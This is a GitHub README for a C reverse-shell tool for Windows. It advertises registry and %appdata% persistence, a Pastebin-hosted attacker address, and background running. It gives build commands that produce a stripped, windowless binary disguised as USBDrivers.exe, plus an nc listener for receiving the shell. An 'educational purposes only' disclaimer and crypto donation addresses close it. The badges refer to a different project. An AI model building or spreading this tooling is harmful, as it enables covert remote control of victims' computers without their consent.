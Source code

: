 <h1 align="center">C.ReverseShell</h1>



<p align="center">
<a href="#"><img alt="logs-ipgrabber forks" src="https://img.shields.io/github/forks/cdkw/logs-ipgrabber?style=for-the-badge"></a>
<a href="#"><img alt="logs-ipgrabber last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/logs-ipgrabber/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="logs-ipgrabber Repo stars" src="https://img.shields.io/github/stars/cdkw/logs-ipgrabber?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="logs-ipgrabber License" src="https://img.shields.io/github/license/cdkw/logs-ipgrabber?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/logs-ipgrabber/issues"><img alt="logs-ipgrabber issues" src="https://img.shields.io/github/issues/cdkw/logs-ipgrabber?color=purple&style=for-the-badge"></a>

<p align="center">⚠️ EDUCATIONAL PURPOSES ONLY - PLEASE READ LEGAL NOTICE ⚠️</p>
<p align="left"><img src="https://i.imgur.com/sQ8bRpe.png" alt="Image"></p>

### **💸 Features**
* Reconnection interval
* Persistence (Registry key, file copied in %appdata%)
* Pastebin IP modification
* Runs in the background


### **📜 Requirements**
* `gcc-mingw-w64` can be installed with `sudo apt install gcc-mingw-w64`
* a linux server/machine to run `nc -nlvp <port>`


### **💾 Installing and Compiling**

```shell script
git clone https://github.com/cdkw/C.ReverseShell.git
cd C.ReverseShell
```
Now go in the `creverse.c` file and modify line 11: `#define PASTEBIN_URL "https://pastebin.com/raw/ENTER_PASTEBIN_HERE"` to your raw pastebin url. (`IP:PORT`)
```sh
gcc creverse.c -o USBDrivers.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -lwininet -static-libstdc++ -static-libgcc -mwindows
```
* NOTE: To change its name from `USBDrivers.exe` to something else make sure to also modify `line 161` to match your filename.


### **⚠️ MUST READ - Legal notice**

This code is provided for **EDUCATIONAL PURPOSES ONLY**. It is intended to demonstrate certain programming concepts and techniques related to network communication and process control. This code should **NOT be used** for any malicious or unauthorized activities.

The author disclaims any responsibility for any misuse of this code and is not liable for any legal consequences that may arise from its use. Always ensure compliance with applicable laws and regulations when using or adapting this code. Do not hack anyone without their consent!

### **☕ Support me!**

If you want to support me, consider joining my discord or donating to my crypto wallets:
* BTC `3QMrNrzGSPunpnYirVFtKp6G4oSnJDk1oT`
* ETH `0xFD03ee7AB099223a4B33327955a9aF3dd3DCDA61`
* SOL `7HDSAnXosAWNiuBwZCv18CdWc9aZCpdNoCBKAf11C7BD`